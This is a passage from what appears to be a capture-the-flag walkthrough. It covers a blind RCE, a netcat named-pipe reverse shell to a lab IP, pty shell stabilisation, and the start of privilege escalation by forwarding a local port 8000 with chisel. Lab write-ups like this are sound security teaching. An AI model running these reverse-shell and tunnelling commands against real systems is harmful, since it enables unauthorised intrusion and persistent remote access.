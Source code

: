![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/297f7a44-a6c1-48f1-9040-cbc32080b473)

We get something called a blinc RCE, you'll see this when you try to run Linux commands

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4d836008-ab13-4b40-bfa2-43271de7a850)

But we can try to get a shell from here using the payload below

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.71 1234 >/tmp/f
```
Ensure you edit the LHOST and LPORT to that which is applicable to you

Also, we can set up our netcat listener before using the payload

Running the payload should get spawn us a shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/619b5c15-001e-4717-a17d-c62fe19284b7)

We got a shell hehe😎

To stabilize the shelll

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5f893b63-a4e7-4c9d-b090-a84d3a1a67a9)

Lets go ahead to escalate our privileges



# Privilege Escalation

Running the command ```netstat -tulnp``` we find a webserver listening on port 8000

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/65da823a-c1fb-4309-9856-ba8fc393974e)

Lets port forward using chisel

Sent chisel over to the target's machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e017691d-82b6-4435-a7ee-e952d245f7d3)

On target’s machine run this

command:```./chisel client <LHOST>:9001 R:8000:127.0.0.1:8000```

On your machine run this

command:```./chisel server -p 9001 --reverse```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e28ee32b-b803-4951-9883-80c5e2efec08)
